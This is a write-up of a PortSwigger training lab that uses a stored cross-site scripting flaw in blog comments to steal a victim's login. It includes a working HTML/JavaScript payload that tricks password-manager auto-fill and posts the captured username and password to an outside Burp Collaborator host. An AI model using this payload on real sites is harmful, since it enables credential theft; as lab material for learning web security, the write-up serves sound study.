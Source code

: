 # Lab: Exploiting cross-site scripting to capture passwords

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords>  
Difficulty: PRACTITIONER  
Python script: No script available  
The description below requires Burp Suite Professional to solve this lab!

## Known information

- Application has a stored XSS vulnerability in the comment feature
- A victim user views anything that is posted
- The lab can be solved both with and without Burp Collaborator
- Goals:
  - Exfiltrate the username and password of the victim
  - Impersonate the victim

## Steps

### Analysis

As a first analysis, I use `xX';!--"<XSS>=&{()}Xx` within a comment to see if some interesting characters may not be treated safely. This results in this HTML:

![html](img/html.png)

It looks like the angle brackets are not encoded, so I can use them to insert arbitrary tags within the comment.

### Finding interesting content to inject

The next step is to find out where username and password information can be obtained from. They are not stored within the cookie or similar easily accessible places, so exfiltrating it like in the [last lab](../Exploiting_cross-site_scripting_to_steal_cookies/README.md) is not possible.

There is one place that commonly stores usernames and passwords: password managers. Personally, I do not use any password manager that offers automatic completion or worse auto-fill in the browser. I prefer using a standalone application and manually copy username and password over.

But I realize I am a minority here, most people that use password managers prefer the convenience of auto-fill. If this is the case here as well, I may be able to trick the password manager to input the values for me.

The login form of the application looks like this:

![login_form](img/login_form.png)

### Preparing the payload

So I copy these to input fields into my payload. I add an `id` field to the username so I can reference it within the event JavaScript of the password field.

```html
<input type="username" name="username" id="exfiltrate_username">
<input type="password" name="password" onblur="fetch('https://x20mhgfj0fhdu7zn0di10p89j0pqdf.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:exfiltrate_username.value + ':' + this.value
});"> 
```

The `onblur` event triggers when the input field looses focus, so after the password manager inputs its values. It will send a `POST` request to my Burp Collaborator instance containing both username and password.

After posting the comment, the Burp Collabrator client is hit by an HTTP request that contains the required information in the body:

![exfiltrated_data](img/exfiltrated_data.png)

Logging in with these credentials solve the lab:

![success](img/success.png)
